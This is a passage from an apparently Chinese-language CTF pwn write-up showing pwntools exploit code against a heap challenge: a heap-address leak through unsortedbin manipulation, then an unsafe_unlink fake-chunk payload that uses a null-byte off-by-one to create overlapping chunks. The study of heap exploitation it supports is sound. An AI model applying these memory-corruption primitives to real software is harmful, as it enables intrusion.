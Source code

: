 ```python
add(0x1000)     # 1
add(0x100)      # 2
add(0x100)      # 3
add(0x100)      # 4

dele(1)
dele(3)

# unsortedbin to largebin
add(0x100)      # 1

dele(4)
dele(1)
dele(2)
dele(0)

add(0x110)      # 0
add(0x100)      # 1
show()
chunk_base=u64(p.recv(6)+2*'\x00')-0x130
log.info('chunk base is:'+hex(chunk_base))

dele(0)
dele(1)

# clear heap
#################################

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>接下来我们就要想着怎么攻破这个程序了，一般house of orange这类利用不是存在明显的堆溢出就是利用重叠堆块来编辑unsortedbin从而达到攻击的效果。堆溢出就是null-byte-off-by-one了，只有一个字节，那看来就是创造重叠堆块了。在这里我用了unsafe_unlink来伪造堆块（不懂或者忘了的话可以看我的how2pwn里的offbyone_unlink.c），这样可以在一个堆块内部分配其他堆块：</font></br>

```python
add(0x118)      # 0
add(0xf8)       # 1
add(0x108)      # 2

dele(0)
add(0x118)      # 0

fake_p=chunk_base+0x40
payload=p64(fake_p)+p64(0)*2+p64(0x101)
payload+=p64(fake_p-0x10-0x18)+p64(fake_p-0x10-0x10)
payload=payload.ljust(0x110,'\x00')
payload+=p64(0x100)
edit(payload)

dele(1)

# alloc it, and we got chunks overlapped
add(0x1f8)      # 1

```
